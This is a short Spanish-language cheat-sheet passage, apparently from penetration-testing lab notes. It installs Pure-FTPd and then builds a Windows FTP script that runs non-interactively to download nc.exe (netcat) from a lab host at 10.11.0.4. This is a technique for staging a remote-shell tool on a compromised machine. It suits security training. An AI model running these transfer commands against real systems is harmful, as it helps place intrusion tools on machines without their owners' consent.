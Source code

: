 ### Pure-FTPd
```
sudo apt update && sudo apt install pure-ftpd
sudo systemctl restart pure-ftpd
```

### Transferencia de archivos con hosts de Windows
```
echo open 10.11.0.4 21> ftp.txt
echo USER offsec>> ftp.txt
echo lab>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt

ftp -v -n -s:ftp.txt
```




